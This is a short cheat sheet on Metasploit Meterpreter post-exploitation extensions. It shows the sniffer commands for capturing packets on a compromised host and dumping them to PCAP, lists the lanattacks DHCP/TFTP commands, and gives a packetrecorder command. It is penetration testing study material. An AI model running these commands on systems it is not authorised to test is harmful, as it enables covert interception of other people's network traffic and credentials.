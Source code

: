 # Metasploit

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## Meterpreter Extension

### Sniffer

```
meterpreter > load sniffer

Sniffer Commands
================

    Command             Description
    -------             -----------
    sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces
    sniffer_release     Free captured packets on a specific interface instead of downloading them
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface
```

List available network interfaces.

```
meterpreter > sniffer_interfaces
```

Launch the sniffer to capture packets on a specific network interface.

```
meterpreter > sniffer_start

meterpreter > sniffer_start <interface_ID>
```

View the statistics of the sniffer.

```
meterpreter > sniffer_stats
```

Dump captured packets.

```
meterpreter > sniffer_dump <interface_ID> output.pcap
```

Stop capturing packets.

```
meterpreter > sniffer_stop <interface_ID>
```

### LANAttacks

TODO: Provide usage examples

```
meterpreter > load lanattacks

Lanattacks: DHCP Commands
=========================

    Command            Description
    -------            -----------
    dhcp_load_options  Load DHCP optionis from a datastore
    dhcp_log           Log DHCP server activity
    dhcp_reset         Reset the DHCP server
    dhcp_set_option    Set a DHCP server option
    dhcp_start         Start the DHCP server
    dhcp_stop          Stop the DHCP server


Lanattacks: TFTP Commands
=========================

    Command        Description
    -------        -----------
    tftp_add_file  Add a file to the TFTP server
    tftp_reset     Reset the TFTP server
    tftp_start     Start the TFTP server
    tftp_stop      Stop the TFTP server
```

## Post Module

```
meterpreter > run packetrecorder -il
```

---
## References

- [Metasploit Unleashed: Packet Sniffing](https://www.offsec.com/metasploit-unleashed/packet-sniffing/)